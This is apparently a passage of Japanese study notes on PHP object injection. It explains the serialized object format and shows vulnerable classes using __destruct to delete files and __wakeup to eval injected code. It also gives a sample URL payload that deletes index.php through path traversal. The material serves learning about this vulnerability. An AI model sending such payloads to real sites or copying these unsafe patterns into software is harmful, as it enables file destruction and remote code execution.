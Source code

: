 ```php
// O:8:"Example2":2:{s:10:"cache_file";N;s:5:"array";a:1:{s:3:"key";i:100;}}
// Oは「”Example2”というObjectをシリアル化している」の意味
// 8は”Example2”の文字数
// 2は「フィールドが二つある」の意味
// sはStringの意味？
// 10は"cache_file"の文字数
// Nは値がセットされていないという意味。{変数名;値}でワンセットっぽい
// 最後の"i:100;"はint型の値100という意味
?>
```
## __destruct
```php
class Example1
{
   public $cache_file;

   function __construct(){
      // some PHP code...
   }
   // インスタンス削除時にデストラクタを実行して$cache_fileを削除する
   function __destruct(){
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}

// some PHP code...

// GETメソッドの?data=以降の値をデシリアライズする
$user_data = unserialize($_GET['data']);

// some PHP code..
```
以下で、Example1クラスのオブジェクトとして復元して、Example1クラスのインスタンスを`$user_data`に代入するので、`$user_data`インスタンスが削除されるときに`../../index.php`が削除されてしまう！   
```txt
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```
## __wakeup

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        // このクラスをunserializeするときに__wakeup()を実行する
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);  // こんなことする場合ってあるのか？？
            }
        }
    }
    // $_REQUEST['r']はGETとPOSTとCOOKIEを合わせた連想配列。$_GET['r']とかと同じ
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
```